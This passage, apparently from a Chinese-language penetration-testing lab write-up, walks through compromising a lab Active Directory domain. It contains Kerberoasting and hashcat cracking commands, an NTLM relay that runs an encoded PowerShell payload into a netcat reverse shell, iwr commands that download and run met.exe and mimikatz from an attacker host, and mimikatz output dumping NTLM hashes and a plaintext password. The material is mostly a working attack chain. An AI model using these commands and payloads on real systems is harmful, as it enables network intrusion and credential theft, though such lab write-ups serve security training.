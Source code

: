 可以正常访问了，后台没有弱口令

## 24.5 攻击内部Web应用

Kerberoasting

```armasm
proxychains -q impacket-GetUserSPNs -request -dc-ip 172.16.6.240 beyond.com/john
```

获得daniela.hash，破解

```armasm
sudo hashcat -m 13100 daniela.hash /usr/share/wordlists/rockyou.txt --force
```

登录/wp-admin后台（daniela/DANIelaRO123）

BackupMigration插件可以利用，hash中继到mail01

```armasm
sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.242 -c "powershell -enc JABjAGwAaQ..."
nc -nvlp 9999
```

使用备份插件，输入“//192.168.119.5/test”

中继成功，获得shell

## 24.6 获得域控

获取缓存凭证，因为已经是本地system权限了，上传mimikatz获取hash

```armasm
cd C:\Users\Administrator
iwr -uri http://192.168.119.5:8000/met.exe -Outfile met.exe
.\met.exe

sessions -i 2
shell
powershell

iwr -uri http://192.168.119.5:8000/mimikatz.exe -Outfile mimikatz.exe
.\mimikatz.exe

privilege::debug
sekurlsa::logonpasswords

         [00000003] Primary
         * Username : beccy
         * Domain   : BEYOND
         * NTLM     : f0397ec5af49971f6efbdb07877046b3
         * SHA1     : 2d878614fb421517452fd99a3e2c52dee443c8cc
         * DPAPI    : 4aea2aa4fa4955d5093d5f14aa007c56
        tspkg :
        wdigest :
         * Username : beccy
         * Domain   : BEYOND
         * Password : (null)
        kerberos :
         * Username : beccy
         * Domain   : BEYOND.COM
         * Password : NiftyTopekaDevolve6655!#!
```
